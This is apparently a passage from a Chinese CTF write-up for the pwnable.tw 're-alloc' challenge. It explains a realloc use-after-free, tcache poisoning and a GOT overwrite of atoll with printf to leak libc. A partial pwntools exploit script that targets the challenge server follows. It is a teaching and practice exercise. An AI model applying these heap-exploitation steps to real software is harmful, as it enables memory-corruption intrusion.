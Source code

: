 在`edit`中，若`new size`为0，就相当于对chunk进行了free，free的返回值为0。程序进行了返回，没有将原来的指针进行更新，所以我们可以进行UAF。

got表可写，但是没有show函数，先想办法通过修改got表进行leak。计划修改`atoll_got`为`printf_plt`，我们就可以通过格式化字符串漏洞来泄露got表中的地址，从而leak libc。

首先，申请一个chunk，使用`edit`将其free，并修改其`fd`指向`atoll_got`。然后，再将这个chunk申请回来，这时`next`就会被填入`atoll_got`。为了不影响最开始的这个`tcache bin`，我们`realloc`这个chunk，为一个新大小，然后free掉。这时，这个chunk的key被清空了，但是heap数组中还有这个chunk的指针，而且我么没法直接覆盖，所以我们再次通过`realloc`修改器key域为垃圾数据，将其free就可以清空heap数组了。最后，一个`tcache bin`的`next`不为`NULL`但是count为0，之后再申请对应的大小就会让count造成溢出。

在leak libc后，还要再次进行修改，所以我们再次使用上述操作，使另一个`tcache bin`的`next`指向`atoll_got`。

## exp

```python
from pwn import *
#from LibcSearcher import LibcSearcher
from struct import pack
import sys

leak = lambda name,addr: log.success('{0} addr ---> {1}'.format(name, hex(addr)))
context(arch = 'amd64' , os = 'linux', log_level='debug')
context.terminal = ['tmux', 'splitw', '-h']

binary='./re-alloc'
#gdb.attach(sh)
if 'l' in sys.argv[1] and 'r' not in sys.argv[1]:
	log.info('Test in local...')
	sh=process(binary)
if 'r' in sys.argv[1]:
	log.info('Attacking...')
	sh=remote('chall.pwnable.tw', 10106)

elf = ELF(binary,checksec=False)
libc = ELF('libc.so',checksec=False)

def add(idx,size,data):
	sh.sendlineafter('choice: ','1')
	sh.sendlineafter('Index:',str(idx))
	sh.sendlineafter('Size:',str(size))
	sh.sendafter('Data:',data)

def edit(idx,size,data):
	sh.sendlineafter('choice: ','2')
	sh.sendlineafter('Index:',str(idx))
	sh.sendlineafter('Size:',str(size))
	if size != 0:
		sh.sendafter('Data:',data)

def dele(idx):
	sh.sendlineafter('choice: ','3')
	sh.sendlineafter('Index:',str(idx))	

atoll_got = elf.got['atoll']
printf_plt = elf.plt['printf']

add(0,0x18,'a'*0x8)
edit(0,0,'')
edit(0,0x18,p64(atoll_got))
add(1,0x18,'a'*0x8)
edit(0,0x38,'a'*8)
dele(0)
edit(1,0x38,'b'*0x10)
dele(1)

```